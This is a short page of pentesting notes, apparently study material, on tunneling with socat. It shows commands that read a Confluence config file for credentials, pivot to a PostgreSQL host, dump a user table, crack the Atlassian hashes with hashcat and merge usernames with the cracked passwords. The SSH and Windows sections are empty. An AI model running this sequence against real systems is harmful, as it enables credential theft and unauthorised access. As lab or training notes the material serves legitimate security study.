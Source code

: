 # Tunneling

## Port forwarding

### Socat

```
cat /var/atlassian/application-data/confluence/confluence.cfg.xml # config file...
socat -ddd TCP-LISTEN:2345,fork TCP:DbHostIP:5432
psql -h GatewayIP -p 2345 -U postgres
\l
\c mydb
select table_schema,table_name from information_schema.tables where table_name like '%user%;
\o hashes.txt
select * from user_table
\o
\q
hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt # Atlassian hashcat code: hashcat -h
vim afterhashcat.txt
tr -d ' ' hashes.txt | awk -F'|' '(NR >2) {print $2, $17}' > loginpass.txt
vim loginpass.txt # clean ?
awk -F' ' '{a[$1]=a[$1]?a[$1]":"$2:$2":"$1;}END{for (i in a) print a[i];}' loginpass.txt afterhashcat.txt | awk -F ':' '$3 {print $1, $3}' > final.txt
```
Awk tips: https://www.theunixschool.com/2012/06/awk-10-examples-to-group-data-in-csv-or.html

### Ssh

```

```

### Windows

```

```


